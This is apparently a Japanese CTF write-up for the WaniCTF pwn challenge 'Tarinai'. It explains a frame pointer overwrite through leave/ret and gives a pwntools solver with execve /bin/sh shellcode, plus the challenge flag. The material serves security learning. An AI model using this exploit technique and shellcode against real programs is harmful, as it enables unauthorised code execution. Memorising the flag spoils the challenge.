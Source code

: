 ```yaml
---
title: Tarinai
level: 4
flag: FLAG{Now_You_Know_Function_Epilogue}
writer: EBeb
badge: true
---
```


# Tarinai?

## 問題文

脆弱性は明らかにあるな…
あれ？ちょっと足りない？

`nc tarinai.pwn.wanictf.org 9007`

## 解法


### FramePointerOverwrite (FPO)

書き換えられるのはrbpが示している値の一部だけ

そこを書き換えたら何が起こるかを確認する。

leaveとretの動きを理解する必要がある。



leave = mov rsp rbp; pop rbp;

ret = pop rip; jmp rip;



vuln関数のrbpにある値が変わると、leaveでrbpには書き換えられたアドレスが設定される。

Vulnからは無事に出られるが、問題はmain関数のleaveにある。



mainのleaveではrspがvulnで書き換えられたrbpに移動する。leave -> retで pop rbpとpop ripが行われて、

ripには書き換えたrbp+8のアドレスのデータが入る。もし、ここをshell codeのあるアドレスにしたら？？



手順

rbpにある値をName[256]のアドレスに書き換える。

Address of Name + 8 の位置に Address of Name +16のアドレスを入れる。

Address of Name + 16からはShell codeを入れる。

[解説PPT](https://docs.google.com/presentation/d/1eFcf3qkw-9z9j9x3fkLWGtRVWT1YqTlita4QAI9caMM/edit?usp=sharing)


### Solverのコードと結果

```
from pwn import *

pc = process('./chall')

len_of_buf=256
shell=b"\x48\x31\xff\x48\x31\xf6\x48\x31\xd2\x48\x31\xc0\x50\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x53\x48\x89\xe7\xb0\x3b\x0f\x05"

buff=pc.recvuntil(b'\n')
buff=buff[buff.find(b'0'):-1]
buff=int(buff,16)
log.info('buff @ {}'.format(hex(buff)))

target=bytes.fromhex(hex(buff)[-4:])[::-1]
log.info(str(target))

payload =b'A'*8+p64(buff+16)+shell+b'A'*(len_of_buf-8-8-len(shell))
payload +=target


#gdb.attach(pc,'break *0x401306')
pc.sendline(payload)
pc.interactive()
```
